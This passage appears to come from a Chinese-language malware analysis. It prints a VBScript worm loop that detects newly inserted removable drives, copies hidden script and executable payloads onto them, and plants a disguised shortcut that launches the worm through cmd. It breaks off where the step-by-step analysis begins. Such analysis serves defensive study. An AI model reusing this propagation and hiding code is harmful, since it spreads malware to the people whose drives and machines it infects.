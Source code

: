该函数部分代码是重用的，主要内容也是一个循环

```vb
While True

	Set colProcess = objWinMgmt.ExecQuery ("Select * From Win32_Process where name = 'wscript.exe'")
	call procheck(colProcess, "helper.vbs")
	
	Set objEvent = colEvents.NextEvent
	If objEvent.TargetInstance.DriveType = 2  Then
		If objEvent.Path_.Class = "__InstanceCreationEvent" Then
			device = objEvent.TargetInstance.DeviceID
			devicename = objEvent.TargetInstance.VolumeName
			DestFolder = device & "\WindowsServices"
			DummyFolder = device & "\" & "_"
			if (not objws.folderexists(DestFolder)) then
				objws.CreateFolder DestFolder	
				Set objDestFolder = objws.GetFolder(DestFolder)
				objDestFolder.Attributes = objDestFolder.Attributes + 39
			end if
			
			Call moveandhide ("\helper.vbs")
			Call moveandhide ("\installer.vbs")
			Call moveandhide ("\movemenoreg.vbs")
			Call moveandhide ("\WindowsServices.exe")
			
			if (not objws.fileexists (device & devicename & ".lnk")) then
				Set link = ws.CreateShortcut(device & "\" & devicename & ".lnk")
				link.IconLocation = "%windir%\system32\SHELL32.dll, 7"
				link.TargetPath = "%COMSPEC%" 
				link.Arguments = "/C .\WindowsServices\movemenoreg.vbs"
				link.windowstyle = 7
				link.Save
			End If
				
				
			if (not objws.folderexists(DummyFolder)) then
				objws.CreateFolder DummyFolder	
				Set objDestFolder = objws.GetFolder(DummyFolder)
				objDestFolder.Attributes = objDestFolder.Attributes + 2 + 4
				End If
			set check = objws.getFolder(device)
			Call checker(check)
			
		End If
	End If
Wend
```

下面逐步分析

#### 确保helper.vbs的运行状态

